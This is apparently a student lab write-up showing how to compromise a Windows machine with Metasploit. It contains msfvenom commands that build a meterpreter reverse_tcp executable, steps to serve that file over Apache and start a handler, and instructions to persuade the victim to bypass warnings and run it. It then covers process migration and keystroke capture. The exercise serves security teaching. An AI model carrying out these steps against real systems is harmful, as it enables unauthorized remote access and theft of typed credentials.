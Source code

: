 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
Developed By 
MURALIDHARAN M 
212223040120
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## PROGRAM:
Find the attackers ip address using ifconfig
## Output :
![image](https://github.com/user-attachments/assets/f199d9df-8df9-4a0b-9d1a-adebdb8ee48d)

Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output:
![image](https://github.com/user-attachments/assets/0060ba60-29b6-4568-806f-20270c236ad2)
copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/02aa7dc5-93ca-4ad7-9636-8b9c5ba0070d)

Start apache server sudo systemctl apache2 start

![image](https://github.com/user-attachments/assets/ac415d4c-f5db-4c90-8d97-4a03c0186f28)

Check the status of apache2 sudo apache2 status

![image](https://github.com/user-attachments/assets/a63c096c-cbc2-4341-880a-42e5c414fba7)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## Output:
![image](https://github.com/user-attachments/assets/13c92553-f5aa-4589-ba1b-b7115e906231)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/0b69010f-d3f4-4e11-9eb8-27f09a95b4a4)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit

![image](https://github.com/user-attachments/assets/1685b62e-8e72-49a6-81cb-6add018438ed)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

## Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/2c800741-e5b4-4fc0-8f2b-2aa392ec6623)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/e2717fa5-0e2a-45ec-aa3d-dd2ceb91860c)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
